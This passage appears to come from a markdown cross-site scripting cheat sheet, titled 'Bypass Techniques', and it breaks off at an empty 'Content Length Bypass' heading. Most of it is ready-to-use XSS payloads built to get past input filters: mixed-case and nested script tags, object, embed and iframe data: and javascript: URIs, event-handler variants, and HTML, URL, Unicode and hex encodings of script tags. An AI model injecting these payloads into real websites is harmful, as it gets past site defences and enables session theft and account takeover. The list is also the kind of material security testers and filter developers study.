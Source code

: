 ## Bypass Techniques

### Basic Tag Bypass

Used when basic XSS protections are in place:

```javascript
# Case Variation
<ScRiPt>alert(1)</ScRiPt>
<IMG SRC=x onerror=alert(1)>

# Tag Obfuscation
<scr<script>ipt>alert(1)</scr</script>ipt>
<img src=x onerror=alert&#x28;1&#x29>
```

### Filter Evasion

Used when specific keywords or patterns are blocked:

```javascript
# Script Tag Alternatives
<object data="data:text/html,<script>alert(1)</script>">
<embed src="data:text/html,<script>alert(1)</script>">
<iframe src="javascript:alert(1)">

# Event Handler Alternatives
onmouseover=alert(1)
OnMoUsEoVeR=alert(1)
/onclick=alert(1)//
```

### Encoding Bypass

Different encoding methods to bypass filters:

```javascript
# HTML Encoding
&lt;script&gt;alert(1)&lt;/script&gt;

# URL Encoding
%3Cscript%3Ealert(1)%3C%2Fscript%3E

# Unicode Encoding
\u003Cscript\u003Ealert(1)\u003C/script\u003E

# Hex Encoding
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```

### Content Length Bypass

Bypassing length restrictions:
